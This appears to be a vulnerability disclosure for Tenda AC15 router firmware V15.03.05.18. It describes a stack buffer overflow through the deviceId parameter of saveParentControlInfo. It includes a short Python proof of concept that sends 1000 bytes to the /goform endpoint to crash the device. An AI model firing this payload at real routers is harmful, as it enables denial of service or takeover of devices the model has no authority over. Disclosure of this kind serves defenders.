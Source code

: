 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240316165529681](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316165529681.png)

it reads in a user-provided parameter `deviceId`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240305112536175](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305112536175.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240305112602204](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305112602204.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"deviceId": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240316165800952](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316165800952.png)
